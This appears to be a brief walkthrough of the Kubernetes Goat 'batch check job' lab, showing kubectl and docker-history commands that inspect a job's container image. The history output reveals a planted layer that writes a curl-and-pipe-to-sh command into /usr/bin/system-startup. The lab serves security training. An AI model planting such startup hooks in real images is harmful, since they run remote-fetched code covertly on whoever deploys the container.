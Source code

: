 kubectl get jobs

kubectl describe job batch-check-job

kubectl get pods --namespace default -l "job-name=batch-check-job"

kubectl get pod batch-check-job-954nv -o yaml
docker history --no-trunc madhuakula/k8s-goat-batch-check
...
echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup && chmod +x /usr/bin/system-startup
...
